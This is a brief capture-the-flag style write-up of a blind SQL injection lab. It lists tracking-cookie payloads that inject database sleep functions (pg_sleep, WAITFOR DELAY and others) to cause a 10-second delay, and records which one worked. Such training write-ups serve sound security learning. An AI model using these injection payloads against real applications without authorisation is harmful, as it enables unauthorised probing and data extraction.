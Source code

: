 # Blind SQL injection with time delays
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.\
\
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.\
\
To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

# Solution
Expected query structure concerning TrackingId:
```
SELECT TrackingId FROM TrackingIdTable WHERE TrackingId='8e4W3X5FoxstfJs7'
```
## Testing different payloads
Cookie value: `TrackingId=gXuHtQt4c0FElUwR' || dbms_pipe.receive_message(('a'),10)--` does not work\
Cookie value: `TrackingId=gXuHtQt4c0FElUwR' || WAITFOR DELAY '0:0:10'--` does not work\
Cookie value: `TrackingId=gXuHtQt4c0FElUwR' || (select sleep(10))--` does not work\
Cookie value: `TrackingId=gXuHtQt4c0FElUwR' || (select pg_sleep(10))--` WORKS
